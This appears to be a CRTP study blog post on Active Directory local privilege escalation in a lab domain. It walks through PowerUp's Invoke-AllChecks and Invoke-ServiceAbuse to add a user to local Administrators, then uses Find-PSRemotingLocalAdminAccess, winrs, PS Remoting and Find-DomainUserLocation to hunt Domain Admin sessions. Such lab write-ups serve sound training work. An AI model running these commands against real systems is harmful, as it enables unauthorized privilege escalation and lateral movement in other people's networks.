 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## Local Privilege Escalation

### Scenarios which lead to privilege escalation
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

### Ways of locally escalting privilege on Windows
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

### Tools for complete coverage
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## **First Step :** Check for any privilege escalation path

**Tools Used:** PowerView
First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

#### Check for any priviliege escalation path
```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

Let’s use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group. 

#### Abuse the service and add our current domain user to the local Administrator group
```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Invoke-AllChecks_

Now, our user is a local admin !

## **Second Step :** Identify any machine in the domain where our user has local administrative 

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1
Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 

#### Identify a computer within the network domain where the current user has local admin privileges.
```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
We can connect to the machine who has the local administrative access by using winrs


#### Checking the username and computername in the remote winrs session
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Third Step :**Identify a machine in the domain where a Domain Admin session is available (PowerView)

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }

Now, we can abuse this using winrs or PowerShell Remoting!

**Abuse using winrs**
![Result](/img/crtp/result7.png){: width="972" height="589" }